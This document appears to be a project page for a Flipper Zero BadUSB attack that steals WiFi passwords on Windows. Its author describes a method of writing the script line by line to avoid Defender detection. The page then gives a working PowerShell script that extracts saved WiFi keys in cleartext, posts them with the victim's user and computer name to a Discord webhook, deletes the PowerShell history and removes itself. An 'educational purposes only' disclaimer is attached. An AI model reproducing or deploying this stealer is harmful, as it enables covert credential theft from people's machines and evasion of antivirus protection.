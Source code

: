 

# FlipperZeroAdd commentMore actions

      Place your webhook in the "Your-Discord-Webhook-Here" field

      Below is the final copy of the script before the BadUSB attack executes the payload.
      The issue i found with other WiFi stealing BadUSB attacks was that the payload is hosted 
      online and the HID simply attempted to download/run the script. Every single time I attempted
      one of these attacks, defender would step in and catch it before it executed.

      My script does NOT host anything online. The script is yours to edit and audit. 
      The idea behind the script is that the HID uses the run dialogue box to create an empty .ps1
      file in the C:\Users\Public\ directory and appends each line of my code to that file.
      The file line of the BadUSB attack executes the script, which sends your discord webhook
      a message, and then the payload deletes the file it created.


      THIS SCRIPT IS FOR EDUCATIONAL PURPOSES ONLY AND I AM NOT RESPONSIBLE FOR MISTAKES YOU MAKE





Instructions:

1. Place your webhook in the "Your-Discord-Webhook-Here" field

$d="Your-Discord-Webhook-Here"
$s="$env:USERNAME@$env:COMPUTERNAME"
$o=@()
(netsh wlan show profiles) | ? { $_ -match ":\s(.+)$" } | % {
    $n = ($_ -split ":")[-1].Trim()
    $p = (netsh wlan show profile name="$n" key=clear | sls "Key Content").Line
    if ($p) { $p = ($p -split ":")[-1].Trim() } else { $p = "<NO_PASSWORD>" }
    $o += "$n : $p"
}
$w = $o -join "`n"
if ($w) { irm $d -Method Post -Body (@{username=$s; content="**Wi-Fi Passwords**`n`n$w"} | ConvertTo-Json) -ContentType "application/json" | Out-Null } else {
    irm $d -Method Post -Body (@{username=$s; content="**Error**: Check 'netsh wlan show profiles' manually."} | ConvertTo-Json) -ContentType "application/json" | Out-Null
}
del (Get-PSReadlineOption).HistorySavePath -ea 0
Remove-Item -Path $MyInvocation.MyCommand.Path -Force
Start-Sleep 2
[System.GC]::Collect()
